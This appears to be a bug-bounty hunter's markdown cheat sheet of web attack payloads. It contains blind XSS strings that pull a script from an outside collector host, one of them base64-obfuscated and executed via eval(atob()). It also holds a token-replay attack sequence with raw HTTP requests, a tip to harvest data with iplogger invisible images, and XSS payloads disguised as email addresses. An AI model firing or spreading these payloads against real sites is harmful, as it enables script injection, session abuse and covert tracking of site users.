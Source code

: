 ```yaml
---
tags:
  - web_hunting
---
```

- Blind XSS
    
    ```python
    '"><script src=//xss.report/s/M8SZT8></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
    # Using Burp Collaborator
    <https://medium.com/@jr.mayank1999/exploiting-blind-xss-with-burp-collaborator-client-fec38b5fc5e>
    ```
    
- Replay Attacks
    
    ```python
    # Try token Re-Use
    # U send Message 
    PUT /v1/api/messages/send?token=RWFzdGVyIGVnZyEgWW91RhdGEg=
    HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json
    {‘msg’: ‘Hi there! I will meet you at my place at 9pm today..’}
    
    --------------------------------------
    # U Then logout
    GET /v1/api/messages/logout?token=RWFzdGVyIGVnZyEgWW91RhdGEg=
    HTTP/1.1
    Host: vulnlab.com
    Content-Type: application/json 
    ---------------------------------------------------------
    We can then try to resend the request multiple times using the old token but with
    different messages.
    
    If the request was successful and no different status code was returned, it means
    we are able to flood the application using the session data of an old user.
    ```
    
- Markup Language? try **Create A picture that steals Data**
    
    ```python
    Go to <https://iplogger.org/>
    choose invisible image 
    send the message 
    ```
    
    [](https://medium.com/@iframe_h1/a-picture-that-steals-data-ff604ba1012)[https://medium.com/@iframe_h1/a-picture-that-steals-data-ff604ba101](https://medium.com/@iframe_h1/a-picture-that-steals-data-ff604ba101)
    

- **XSS in email section**
    
    ```jsx
    "hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com
    ["');alert('XSS');//"]@xyz.xxx
    “><svg/onload=confirm(1)>”@x.y
    “><svg/onload=confirm(1)>”@x.y
    test@gmail.com%27\\%22%3E%3Csvg/onload=alert(/xss/)%3E
    
    ```
    

